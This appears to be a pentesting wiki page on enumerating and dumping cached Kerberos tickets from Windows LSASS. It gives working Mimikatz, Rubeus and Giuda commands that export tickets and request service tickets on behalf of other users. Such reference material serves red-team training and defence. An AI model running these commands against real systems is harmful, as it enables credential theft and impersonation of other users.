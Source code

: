 ```yaml
---
description: MITRE ATT&CK™ Steal or Forge Kerberos Tickets - Technique T1558
---
```


# Cached Kerberos tickets

## Theory

In Windows, [Kerberos](../../../persistence/kerberos/) tickets are **handled and stored by the** [**lsass** (Local Security Authority Subsystem Service)](lsass.md) process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to **communicate with lsass and ask for them**. As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested using tools like **Mimikatz, Rubeus** or **Giuda.**

## Practice

### Enumerate

{% tabs %}
{% tab title="Klist" %}
[Klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist) is a native Windows tool that can display a list of currently cached Kerberos tickets.&#x20;

```powershell
#Enumerate TGT and TGS
klist tickets

#Enumerate sessions
klist sessions
```
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can be use to enumerate tickets&#x20;

```powershell
.\Rubeus.exe triage
```
{% endtab %}
{% endtabs %}

### Dump tickets

{% tabs %}
{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be use to dump TGTs from the LSASS process

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can also be use to dump TGTs from the LSASS process

```powershell
# Dump all tickets
.\Rubeus dump

# Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap

# Write ticket to disk
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```
{% endtab %}
{% endtabs %}

### Ask a TGS

Using tools like **Giuda ,** we can avoid dumping LSASS memory. With the [SeTcbPrivilege](../../../../windows/privesc/abusing-tokens.md#setcbprivilege), we can read LSA storage, extract the SESSION KEY from TGT, and forge a request asking for a TGS; We must use LUID instead of Username.

{% tabs %}
{% tab title="Giuda" %}
[Giuda](https://github.com/foxlox/GIUDA) can be use to requests a TGS on behalf of another user (without password)

```powershell
#Request a TGS
.\guida.exe -gettgs -luid:<LogonID> -msdsspn:<SPN>

#Example
.\guida.exe -gettgs -luid:0x1875dc -msdsspn:HOST/dc01.lab.local
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows" %}
